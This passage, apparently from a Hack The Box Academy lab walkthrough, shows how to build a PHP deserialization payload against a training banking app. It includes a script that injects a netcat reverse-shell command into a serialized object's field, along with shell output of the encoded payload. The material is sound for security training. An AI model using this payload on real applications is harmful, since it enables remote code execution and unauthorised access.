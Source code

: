 Code: php

```php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('"; nc -nv PWNIP PWNPO -e /bin/bash;#', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
```

Students can use `cat` to save the exploit code into `exploit.php`:

Code: shell

```shell
cat << 'EOF' > exploit.php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('"; nc -nv PWNIP PWNPO -e /bin/bash;#', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
EOF
```

```shell
┌─[us-academy-1]─[10.10.14.165]─[htb-ac413848@htb-pj87jtuskt]─[~/htbank-clean]
└──╼ [★]$ cat << 'EOF' > exploit.php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('"; nc -nv 10.10.14.165 9999 -e /bin/bash;#', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
EOF
```

Afterward, students can attain the serialized object by running `exploit.php`:

Code: shell

```shell
php exploit.php
```

```shell
┌─[us-academy-1]─[10.10.14.165]─[htb-ac413848@htb-pj87jtuskt]─[~/htbank-clean]
└──╼ [★]$ php exploit.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzIjo0OntzOjMwOiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAE5hbWUiO3M6NDI6IiI7IG5jIC1udiAxMC4xMC4xNC4xNjUgOTk5OSAtZSAvYmluL2Jhc2g7IyI7czozMToiAEFwcFxIZWxwZXJzXFVzZXJTZXR0aW5ncwBFbWFpbCI7czoxNjoiYWRtaW5AaHRiYW5rLmNvbSI7czozNDoiAEFwcFxIZWxwZXJzXFVzZXJTZXR0aW5ncwBQYXNzd29yZCI7czo2MDoiJDJ5JDEwJHU1bzZ1MkViak9tb2JRalZ0dTg3UU84WndRc0RkMnp6b3Fqd1MwLjV6dVByM2hxazl3ZmRhIjtzOjM2OiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAFByb2ZpbGVQaWMiO3M6MTE6ImRlZmF1bHQuanBnIjt9
```

(Students are highly encouraged to test the payload locally before remotely.) Then, students need to visit the web root page of the spawned target on port 8000 and create a dummy account:
